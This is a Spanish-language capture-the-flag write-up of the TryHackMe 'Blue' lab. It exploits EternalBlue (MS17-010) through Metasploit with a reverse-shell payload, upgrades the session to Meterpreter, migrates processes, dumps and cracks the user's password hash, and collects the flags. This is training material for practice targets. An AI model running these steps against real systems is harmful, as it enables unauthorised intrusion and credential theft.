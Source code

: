 # Máquina Blue

## Dificultad: Fácil

![Logo](img/blue.webp)

Empezamos haciendo un ping a la máquina objetivo. Vemos que está activa y por el ttl de 128, sabemos que es una máquina Windows.

```bash
ping -c 1 10.10.12.50
```

![Ping](img/ping.webp)

Para enumarar, voy a usar snap, con -sC para usar los scripts de reconocimiento por defecto,-sV para detectar versiones de los servicios, -sS para que sea en modo sigiloso, y -p- para que escanee todos los puertos.

```bash
nmap -p- -sV -sC -sS 10.10.12.50
```

![nmap](img/nmap.webp)

De los puertos abiertos, los que más me llaman la atención son el **445**, que es el puerto de SMB, un puerto crítico por dóndepuede haber vulnerabilidades, y el **3389**, que es el de RDP, otro que podría ser utilizado.  la versión de Windows: **Windows 7 Professional 7601 Service Pack 1 microsoft-ds**, el nombred del Host, **JON-PC**, de lo que deducimos que hay un usuario llamado Jon en la máquina. Vemos que tanto **SMBv1** (smb-security-mode) como **SMBv2** (smb2-security-mode)

Ahora tenemos que encontrar alguna vulnerabilidad que explotar.

Lo primero que se me ocurre es buscar en Google la versión de Windows que usa para ver si tiene vulnerabilidades. Buscnado en Google sobre esta versión del SO encontré esto:

![EternalBLue](img/eternalblue.webp)

Vemos que EternalBlue es un exploit que afecta a SMBv1 y entre otras la versión de Windows de la máquina objetivo. Este exploit permite ejecutar código remote en la máquina objetivo. Si bien ya fue parcheado, no sabemos si la máquina que atacamos ha sido parcheada. Podemos probarlo.

Abrimos metasploit con el comando:

```shell
msfconsole
```
Buscamos el exploit con:

```shell
search ms17-010
```

![Exploit](img/exploit.webp)

Seleccionamos el exploit con:

```shell
use 0
```

El payload que usa por defecto es suficiente, y nos dará acceso a la máquina con una shell inversa de Meterpreter pero, Tryhackme, para que practiquemos el paso de una shell normal de Windows a una shell de Meterpreter, nos sugiere usar en su lugar el siguiente payload para obtener una shell inversa normal de Windows:

```shell
set payload windows/x64/shell/reverse_tcp
```

![Payload](img/payload.webp)

Debemos ajustar la dirección del host remoto.

```shell
set RHOSTS 10.10.12.50
```

Y el host local. Vemos nuestra ip con el comando:

```shell
ip a
```

Y lo ajustamos:

```shell
set LHOST 10.10.162.56
```
Ahora ejecutamos el exploit con:

```shell
run
```

Efectivamente, la máquina es vulnerable al explot EternalBlue, todo ha salido bien, deberíamos ver algo similar a esto:

![Run](img/run.webp)

Ya tenemos la shell inversa de Windows. Ahora dejamos la sesión en segundo plano con **ctrl + z** Y vamos  usar el módulo **post/multi/manage/shell_to_meterpreter** para realizar la escalada de privilegios a la shell de meterpreter.

Ahora tenemos que especificarle la sesión en la que conseguimos la shell inversa. Lo podemos comprobar con el comando:

```shell
sessions -l
```

Si solo has hecho esto será la 1.

Ahora usamos **run** para ejecutar el exploit. Este paso puede dar problemas en esta máquina, y a mi me falló la primera vez y tuve que reiniciar la máquina, por eso tiene una ip distinta ahora. Si sale bien veremos algo similar a esto:

![Meterpreter](img/meterpreter.webp)

Ahora tenemos usa sesión con la shell inversa de meterpreter,, que es ka sesión 2. La activamos con el comando:

```shell
sessions -i 2
```

Ya la tenemos, podemos usar **whoami** para comprobar que tenemos los privilegios nt authority\system:

![whoami](img/whoami.webp)

Nosotros tenemos privilegios de administrador, pero nuestro proceso puede no tenerlos. Por tanto, vamos a migrar a un proceso que los tenga, usamos **ps** para listar los procesos:

![pid](img/pid.webp)

En mi caso voy a migrar a conhost.exe, intenté previamente migrar a svchost.exe pero me negaba el acceso. Para ellos usamos el comando **migrate** indicando el PID del proceso:

```shell
migrate 352
```

![migrate](img/migrate.webp)

Ahora se nos pide la contraseña del usuario Jon. Vamos a usar **hashdump** para obtener el hash de la misma:

![hashdump](img/hashdump.webp)

Ahora hay varias formas de crackear el hash. Podríamos usar John the Ripper y tratar de sacarlo mediante listas de palabras, yo he usado Crackstation por ser más rápido.

![CrackStation](img/crackstation.webp)

Ahora, para la primera bandera, nos dicen que está en la raíz del sistema. Que lo normal es que sea C:

```shell
cd C:\\
ls
cat flag.txt
```
![flag1](img/flag1.webp)

Nos dicen que la segunda bandera está dónde se almacenan las contraseñas de Windows. Es decir en **C:\Windows\System32\config**

```shell
cd C:\\Windows\\System32\\config
ls
cat flag2.txt
```

![flag2](img/flag2.webp)

La bandera 3, nos dicen que está dónde los administradores suelen guardar cosas importantes. Voy por tanto a C:\Users y el único usuario es Jon. Dentro de Jon, busco en Desktop, Downloads, y finalmente Documents, dónde se encuentra la última bandera.

![flag3](img/flag3.webp)

Por cierto, cuando te das cuenta de que se van a llamar flag1.txt, flag2.txt, etc, meterpreter tiene el comando **search -f** al que le pasas el nombre del fichero y te muestra la ruta al mismo. Ejemplo con flag3.txt:

```shell
search -f flag3.txt
```

![search](img/altenativa.webp)

Y con esto ya hemos resuelto la máquina.

![fin](img/fin.webp)